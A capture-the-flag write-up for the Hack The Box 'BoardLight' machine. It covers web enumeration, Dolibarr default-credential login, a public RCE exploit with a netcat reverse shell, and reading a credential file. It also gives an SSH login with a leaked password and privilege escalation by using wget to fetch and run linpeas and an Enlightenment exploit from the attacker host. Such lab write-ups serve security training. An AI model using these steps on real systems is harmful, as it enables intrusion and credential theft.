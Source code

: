 # BoardLight
## Difficulty : Easy
## OS : Linux

### Enumeration:

I'll start with a simple nmap scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.11.62 --max-retries 1
```

![NMAPO](img1.png)

I'll take a look at the web site.Looking at the soruce code we find out about a page that has not been linked yet.


![PgNL](img2.png)

I get "File not found". Let's search for subdomains.

```bash
gobuster vhost -u board.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --append-domain=true
```

![Vhost](img3.png)

Let's add both "board.htb" and "crm.board.htb" to our "/etc/hosts" file and check the subdomain.

![Doli](img4.png)

We got a login page. Searching for the version we find this https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/blob/main/exploit.py .
We just need some credentials now. 

Using default credentials (admin:admin) gets me access to this:

![plm](img5.png)

### Foothold:

I'll use the script and start a listening port.

```bash
rlwrap nc -lnvp 6666
python3 script.py http://crm.board.htb admin admin 10.10.14.54  6666
```

![Shell](img6.png)

While looking at Dolibarr documentation I found a file called "conf/conf.php". I'll first see what I can find on the file and then I'll search for the user flag.

```bash
cd ~/html/crm.board.htb/htdocs/conf
cat conf.php
```

![password](img7.png)

We found a password. Now let's search for users.

```bash
cd /home
ls
```

![user](img8.png)

I'll login via ssh using the found password and et the user flag.

```bash
ssh larissa@board.htb
serverfun2$2023!!
ls
cat user.txt
```
### I got the user flag!

### Privelage Escalation

I'll get linpeas on the target machine.

Host:
```bash
python3 -m http.server -b 10.10.14.54 80
```
Target:
```bash
wget http://10.10.14.54:80/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Linpeas found an interesting folder "/usr/lib/x86_64-linux-gnu/enlightenment/".

![enl](img9.png)

Searching enlightenment on web I came across this https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh .

I'll get it on the target, run it and get the root flag.

Host:
```bash
python3 -m http.server -b 10.10.14.54 80
```

Target:
```bash
wget http://10.10.14.54:80/eulogy.sh
chmod +x eulogy.sh
./eulogy.sh
```

![root](img10.png)

It worked.

### I got the root flag!